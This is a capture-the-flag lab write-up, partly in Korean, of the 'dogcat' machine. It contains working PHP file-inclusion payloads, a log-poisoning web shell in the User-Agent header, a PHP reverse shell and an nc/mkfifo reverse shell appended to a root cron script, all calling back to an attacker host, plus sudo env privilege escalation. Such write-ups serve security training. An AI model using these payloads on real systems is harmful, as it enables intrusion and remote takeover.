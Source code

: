
> Author: jak010  
> Date: 2021.05.03

## Key Point
- Null Byte Injected
- php filter injection
- Source file leak
- URL Encode
- Docker Container Escaping

## Nmap Scan
```text
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-03 13:35 KST
NSE: Warning: Could not load 'docker-version.nse': no path to file/directory: docker-version.nse
Nmap scan report for 10.10.87.192
Host is up (0.31s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.76 seconds
```

## Local File Inclusing
- Evaluated Null Byte
   ```text
   http://10.10.87.192/?view=dog%00
   ```
   - Result
       ```text
       Warning: include(): Failed opening 'dog' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 24
       ```
- PHP filter (PayloadAllTheThing)
    ```text
    http://10.10.87.192/?view=php://filter/convert.base64-encode/resource=dog
    ```
    - Result
        ```text
        Here you go!PGltZyBzcmM9ImRvZ3MvPD9waHAgZWNobyByYW5kKDEsIDEwKTsgPz4uanBnIiAvPg0K
        ```
    - Base64 Decode
        ```text
        Here you go!<img src="dogs/<?php echo rand(1, 10); ?>.jpg" />
        ```

## Source File Leak
- Payload
    ```text
    http://10.10.87.192/?view=php://filter/convert.base64-encode/resource=dog/../index
    ```
     - Source
      ```php
 	   <?php
	   function containsStr($str, $substr)
	    {
	        return strpos($str, $substr) !== false;
	    }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
	    if (isset($_GET['view']))
	    {
	        if (containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat'))
	        {
	            echo 'Here you go!';
	            include $_GET['view'] . $ext;
	        }
	        else
	        {
	            echo 'Sorry, only dogs or cats are allowed.';
	        }
	    }
	   ?>
      ```
       - $ext 변수에서 isset을 통해 변수가 셋팅되어있는지 확인한다. 요청을 보낼 때 ext 변수를 포함해서 보내면 통과
       ```sh 
       http://10.10.87.192/?view=dog/../../../../../../../etc/passwd&ext=
       ```

## User-Agent Injeciton
- Log file Check
    ```sh
    curl -XGET http://10.10.87.192/?view=dog/../../../../../var/log/apache2/access.log&ext=
    ```
    - User-Agent를 로그 파일에서 그대로 보여주고 있으므로 User-Agent 헤더의 값을 변경하여 테스트
    ```sh
    curl -H "User-Agent: hello" -XGET http://10.10.87.192/?view=dog/../../../../../var/log/apache2/access.log&ext=
    ```
    - User-Agent에 입력되는 값을 통해 시스템 명령어를 실행시킬 수 있게 값 시도 (Burp Suie)  
    ```text
    GET /?view=dog/../../../../../var/log/apache2/access.log&ext=&cmd=ls HTTP/1.1
	Host: 10.10.98.185
	Upgrade-Insecure-Requests: 1
	DNT: 1
	User-Agent: <?php system($_GET['cmd']); ?>
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
	Referer: http://10.10.98.185/?view=dog
	Accept-Encoding: gzip, deflate
	Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
	Connection: close
    ```

## Gaining Access
- Payload, PHP Reverse Shell
    ```text
    GET /?view=dog/../../../../../var/log/apache2/access.log&ext=&cmd=php+-r+'$sock%3dfsockopen("10.9.26.67",9001)%3bexec("/bin/bash+-i+<%263+>%263+2>%263")%3b' HTTP/1.1
	Host: 10.10.98.185
	Upgrade-Insecure-Requests: 1
	DNT: 1
	User-Agent: <?php system($_GET['cmd']); ?>
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
	Referer: http://10.10.98.185/?view=dog
	Accept-Encoding: gzip, deflate
	Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
	Connection: close
    ```
    - Reverse Shell을 그대로 보내면 실행이 안됨, URL Encode로 한번 변환시킨 뒤 보내줄 것 (Ctrl + u)

## Flag By User
- 1st flag
    ```sh
    cd /var/www/html
    cat flg.php
    ```
    - VEhNe1RoMXNfMXNfTjB0XzRfQ2F0ZG9nX2FiNjdlZGZhfQo=
- 2st Flag
   ```sh
   /var/www/flag2_QMW7JvaY2LvK.txt
   ```
    - VEhNe0xGMV90MF9SQzNfYWVjM2ZifQo=

## Privilige Escalate
- `sudo -l`
    ```sh
    Matching Defaults entries for www-data on e8ddea23cf2d:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

	User www-data may run the following commands on e8ddea23cf2d:
    	(root) NOPASSWD: /usr/bin/env
    ```
    - `sudo /usr/bin/env /bin/sh`

## Flag by Root
- 3st Flag: `VEhNe0QxZmYzcjNudF8zbnYxcm9ubWVudHNfODc0MTEyfQo=`

## Escaping Docker Enviorment
- `.dockerenv Path`
    ```sh
    cd /
	ls -al
	...
	-rwxr-xr-x   1 root root    0 May  3 05:37 .dockerenv
	drwxr-xr-x   1 root root 4096 Feb 26  2020 bin
	...
    ```
- `Malicious command `
    ```sh
    cd /opt
    echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.26.67 9002 >/tmp/f" >> backup.sh
    ```
    - 4th Flag: `VEhNe2VzYzRsNHRpb25zX29uX2VzYzRsNHRpb25zX29uX2VzYzRsNHRpb25zXzdhNTJiMTdk
YmE2ZWJiMGRjMzhiYzEwNDliY2JhMDJkfQo=`


